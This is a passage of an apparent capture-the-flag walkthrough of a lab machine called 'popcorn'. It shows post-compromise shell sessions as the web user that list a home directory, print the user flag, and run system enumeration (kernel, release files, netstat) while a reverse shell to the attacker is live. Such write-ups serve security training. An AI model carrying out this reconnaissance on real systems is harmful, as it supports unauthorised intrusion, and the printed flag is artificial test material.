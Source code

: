 We find the /home/george directory, and we can read the user flag.

```
$ pwd
/
$ ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Nov 16 18:08 ..
drwxr-xr-x  3 george george 4096 Oct 26  2020 george
$ cd /home/george
$ ls -la
total 868
drwxr-xr-x 3 george george   4096 Oct 26  2020 .
drwxr-xr-x 3 root   root     4096 Mar 17  2017 ..
lrwxrwxrwx 1 george george      9 Oct 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 george george    220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 george george   3180 Mar 17  2017 .bashrc
drwxr-xr-x 2 george george   4096 Mar 17  2017 .cache
-rw------- 1 root   root     1571 Mar 17  2017 .mysql_history
-rw------- 1 root   root       19 May  5  2017 .nano_history
-rw-r--r-- 1 george george    675 Mar 17  2017 .profile
-rw-r--r-- 1 george george      0 Mar 17  2017 .sudo_as_admin_successful
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Nov 16 18:08 user.txt
$ cat user.txt
34d32dc6098993688b73868dc7d170f4
$ 
```

## Enumeration as "www-data"

Let's gather some basic system information:

```
www-data@popcorn:/$ uname -a;cat /etc/*-release;netstat -antp
uname -a;cat /etc/*-release;netstat -antp
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 10.10.10.6:80           10.10.14.7:33180        ESTABLISHED -               
tcp        0      0 10.10.10.6:52155        10.10.14.7:8888         ESTABLISHED 1799/sh         
tcp6       0      0 :::22                   :::*                    LISTEN      -               
www-data@popcorn:/$
```
